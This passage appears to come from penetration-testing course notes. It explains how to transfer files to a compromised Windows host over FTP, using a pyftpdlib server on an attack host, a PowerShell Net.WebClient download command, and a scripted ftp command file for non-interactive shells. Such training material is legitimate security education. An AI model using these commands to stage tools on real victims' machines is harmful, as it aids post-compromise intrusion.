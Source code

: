 ----
Another way to transfer files is using FTP (File Transfer Protocol), which use port TCP/21 and TCP/20. We can use the FTP client or PowerShell Net.WebClient to download files from an FTP server.

We can configure an FTP Server in our attack host using Python3 `pyftpdlib` module. It can be installed with the following command:

```bash
sudo pip3 install pyftpdlib
```

Then we can specify port number 21 because, by default, `pyftpdlib` uses port 2121. Anonymous authentication is enabled by default if we don't set a user and password.

```bash
sudo python3 -m pyftpdlib --port 21
```

After the FTP server is set up, we can perform file transfers using the pre-installed FTP client from Windows or PowerShell `Net.WebClient`.

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://<FTP-ip>/file.txt','output-file')
```

When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.

```cmd
echo open <FTP-ip> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```